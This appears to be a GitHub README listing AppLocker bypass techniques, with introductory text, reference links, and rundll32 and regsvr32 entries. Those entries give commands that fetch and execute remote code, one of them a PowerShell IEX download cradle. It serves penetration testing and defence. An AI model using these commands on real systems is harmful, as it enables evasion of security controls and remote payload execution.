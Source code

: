# Ultimate AppLocker ByPass List
The goal of this repository is to document the most common techniques to bypass AppLocker. 
This README file contains a complete list of all known bypasses.
Since AppLocker can be configured in different ways it makes sense to have master list of bypasses. 
This README.MD will be the master and will be updated with known and possible AppLocker bypasses.

1. Binaries that does others stuff : 
https://gist.github.com/api0cradle/8cdc53e2a80de079709d28a2d96458c2#file-binariesthatdoesotherstuff-txt

2. Living of the land : 
http://www.hexacorn.com/blog/category/anti-forensics/page/2/

**There are verified lists for EXE and DLL bypasses.**
These bypasses are based on the default rules created with AppLocker. 

-	[BypassDLL-DefaultRules.MD](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/BypassDLL-DefaultRules.md)
-	[BypassEXE-DefaultRules.MD](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/BypassEXE-DefaultRules.md)


If you are wondering how to create the default rules you can follow this guide:
https://www.rootusers.com/implement-applocker-rules/


Please contribute and do point out errors or resources I have forgotten.
Remember that bypass techniques for BypassDLL and BypassEXE must be verified.
The BypassDLL-DefaultRules and BypassEXE-DefaultRules list should only contain valid bypasses. 



## 1. Rundll32.exe

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"

rundll32 shell32.dll,Control_RunDLL payload.dll

Requires admin: ?

Links:  
https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7


## 2. Regsvr32.exe

regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll

Requires admin: No
Bypasses: 

Links:  
https://gist.github.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302
